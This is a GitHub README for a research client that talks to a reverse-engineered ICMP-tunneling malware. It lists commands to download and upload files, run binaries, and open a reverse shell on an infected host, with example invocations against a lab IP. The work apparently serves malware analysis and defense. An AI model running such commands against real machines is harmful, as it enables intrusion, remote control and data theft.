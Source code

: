 # oci-malware

This is a client for a malware that we found and reversed engineered that uses ICMP tunneling techniques to evade detection.
The VirusTotal report for this malware can be found here: https://www.virustotal.com/gui/file/e50943d9f361830502dcfdb00971cbee76877aa73665245427d817047523667f/detection

## Installation

### Linux

Currently only tested on Linux, as scapy sniffer didn't work correctly on Windows for us.

`pip3 install -r requirements.txt`

## Usage

```
Usage: ocicli.py [OPTIONS] COMMAND [ARGS]...

Options:
  --help  Show this message and exit.

Commands:
  download   Downloads file from remote using mode 1.
  download3  Downloads file from remote using mode 3.
  exep       Execute binary on remote host
  shell      Run shell on remote host, this will tell the remote to connect...
  upload2    Uploads a file to the remote host using mode 2.
```

## Simple Usage Examples

This requires obviously a target running the malware. e.g. if malware was running on 192.168.176.131 to run a shell on the target:

`$ python3 ocicli.py --host 192.168.176.131`

This will listen on a random port on the local machine, send an icmp message to the target host with instructions to connect back to the local machine and random port, and establish a shell.

`$ python3 ocicli.py download --host 192.168.176.131 --remote_file c:\\windows\\system32\\win32calc.exe --local_file calc.exe`

## Demo

A demo has been made by my colleague @drole
[here](https://www.youtube.com/watch?v=OlzgEVk3dig)


## Authors and acknowledgement

Lloyd Macrohon <jl.macrohon@gmail.com>
Rodel Mendrez <rmendrez@trustwave.com>
